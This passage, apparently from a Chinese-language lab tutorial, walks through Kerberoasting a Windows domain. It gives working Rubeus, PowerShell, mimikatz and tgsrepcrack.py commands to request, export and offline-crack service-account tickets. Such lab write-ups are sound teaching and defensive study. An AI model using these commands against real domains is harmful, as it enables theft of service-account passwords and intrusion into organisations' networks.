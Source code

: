 首先，我们测试自动化形式的探测，使用工具Rubeus：（注意：我的实验是直接在靶机的系统内使用powershell来输入命令的。这里当然我们也可以直接使用cs实验）

```powershell
.\Rubeus.exe kerberoast
```

![截图](7258681193177c582813fb202602b226.png)

除此之外，我们还可以使用手动探测，这里的探测我们首先需要生产票据文件，而后在判断票据的加密类型是什么：

```powershell
# 清空票据信息
klist purge
# 添加新的票据文件（这里为了对比，我添加了两种服务）
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ldap/OWA2010SP3.0day.org"
```

![截图](f39921712cc7901e8e051c25832c6165.png)

使用klist查看票据信息，可以发现只有mssql这个服务是使用rc4加密的！

![截图](a6d8ba6aebb9620f9e667ce0893310e4.png)

==注：这里我们添加的服务名都是可以通过前面的spn信息收集到的，可以自行比对一下就知道了！==

```powershell
# 提升权限
.\mimikatz.exe privilege::debug 
# 请求票据
.\mimikatz.exe kerberos::ask /target:MSSQLSvc/SqlServer.god.org:1433
# 导出票据
.\mimikatz.exe kerberos::list /export
```

![截图](7cccdd9b0daddb3ddf9918a99e45d0ee.png)

#### 破解hash值

这里我们直接使用tgsrepcrack.py脚本以及字典pass.txt 进行破解

```powershell
python tgsrepcrack.py pass.txt "1-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi"
```

![截图](f595602197ea4f5da136d1f217571a00.png)

## 额外（生成Rubeus.exe）

需要下载[.NET8.0](https://dotnet.microsoft.com/zh-cn/download/dotnet/thank-you/runtime-desktop-8.0.0-windows-x64-installer)以及.[NET Core SDK](https://dotnet.microsoft.com/download)，[.NET Framework 3.5](https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/thank-you/net35-sp1-web-installer)进行编译！！！
